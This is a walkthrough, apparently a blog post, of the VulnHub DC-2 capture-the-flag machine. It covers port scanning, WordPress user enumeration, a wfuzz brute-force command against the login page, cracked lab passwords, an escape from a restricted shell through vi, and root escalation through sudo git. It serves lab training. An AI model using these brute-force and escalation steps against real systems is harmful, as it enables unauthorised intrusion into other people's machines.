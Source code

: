 ```yaml
---
layout: "post"
title: "DC 2 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-2 easy wordpress suid]
---
```


DC-2 is an easy machine. This machine starts with a `WordPress site`. After brute-forcing, We find out creds on the website that we use to get an `ssh session` on the box. Priv sec to root by exploiting `git SUID binary`.
# Summary
- Portscan
- Adding Domain to Host file
- Finding users on wordpress 
- Creating wordlist
- Bruteforce
- Logging in Wordpress
- SSH shell
- Updating low shell to higher shell
- Privilege Escalation
- Getting ROOT

# Portscan

```
Nmap scan report for 192.168.1.10
Host is up (0.00047s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap scan show that port 80 and 7744 are open

```
Port 80: On this port, I find out a Domain name. I added to /etc/hosts file and surf the page. I discovered that WordPress is installed.

Port 7744: They are running SSH on this port. So I don't have any credentials so I moved forward.
```
# Initial Shell:

## Flag 1:
I got the first flag on the Main page
![flag1](/assets/img/dc-2/flag1.png)



As per hint in the first flag, I created a password list using cewl.

```bash
cewl -w password.txt http://dc-2
```

After that, I use wpscan to identify possible users and I found 3 users.

![wpscan](/assets/img/dc-2/wpscan.png)

Users :-
- admin
- jerry
- tom

Now I have a password and user list so I brute force the wordpress.
Here I use wfuzz to brute force.

```bash
wfuzz -c --hc=200 -z file,users.txt -z file,password.txt -d 'log=FUZZ&pwd=FUZ2Z&wp-submit=Log+In' http://dc-2/wp-login.php
```

![wfuzz](/assets/img/dc-2/wfuzz.png)

Here I got 2 passwords.
- ```jerry:adipiscing```
- ```tom:parturient```

## Flag 2:
I use jerry password to access wordpress panel and got second flag.

![flag2](/assets/img/dc-2/flag2.png)

## First User:
I spend some time to upload php reverse shell, but no luck :(
Then I tried same creds to access SSH on port 7744.
``` $ ssh tom@dc-2 -p 7744```

## Updating shell:

I tried to cat the flag3.txt but no luck. We are in a restricted shell. I checked usr/bin directory and PATH variable I noticed that tom is using binaries from that directory.
Here I learned new things about how to launch a shell using vi.

Steps:

1. Open VI editor 
2. Press ESC + :
3. set shell=/bin/bash
4. Again step 1 and 2 
5. shell

So I have shell using VI.

Now I am out of restricted shell but still using commands in usr/bin directory. I need to change PATH variable.

```export PATH=/bin:/usr/bin:$PATH```

## Flag 3:
Now I am able to cat the third flag.

![flag 3](/assets/img/dc-2/flag3.png)

## Second User:
Flag gives hint we need to switch user i.e jerry.

>jerry:adipiscing

![user2](/assets/img/dc-2/user2.png)

# Privesc to root:

Now I checked the sudoers list and found that I can run git without password.
![sudoer](/assets/img/dc-2/sudoer.png)

After some googling I found a [link](https://gtfobins.github.io/gtfobins/git/#shell).
![gtfobins](/assets/img/dc-2/gtfobins.png)

![git](/assets/img/dc-2/git.png)

## Final Flag
![final](/assets/img/dc-2/final.png)


